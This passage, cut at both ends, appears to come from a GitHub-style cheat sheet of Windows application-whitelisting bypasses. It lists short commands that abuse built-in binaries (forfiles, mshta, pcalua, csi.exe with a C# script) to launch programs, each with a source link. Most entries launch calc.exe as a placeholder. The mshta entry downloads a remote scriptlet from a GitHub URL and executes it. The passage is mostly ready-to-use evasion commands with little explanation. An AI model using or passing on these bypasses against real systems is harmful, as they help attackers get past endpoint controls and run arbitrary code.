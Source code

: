 ``` stylus
forfiles /p c:\\windows\\system32 /m notepad.exe /c calc.exe
```
Link：

https://twitter.com/Evi1cg/status/935027922397573120






## 6.mshta.exe

``` stylus
mshta.exe javascript:a=GetObject(\"script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct\").Exec();close();"
```

Link: 

https://twitter.com/subTee/status/953990877264994304








## 7.pcalua.exe
``` stylus
c:\Windows\System32\pcalua.exe -a calc.exe
```
Link:  

https://twitter.com/KyleHanslovan/status/912659279806640128





## 8.csi.exe

``` stylus
"C:\Program Files (x86)\MSBuild\14.0\Bin\csi.exe\"  secist.csx
```

## Code   secist.csx
``` stylus
using System;System.Diagnostics.Process.Start("calc.exe");
```

Link: 

https://github.com/milkdevil/UltimateAppLockerByPassList






## 9.msxsl
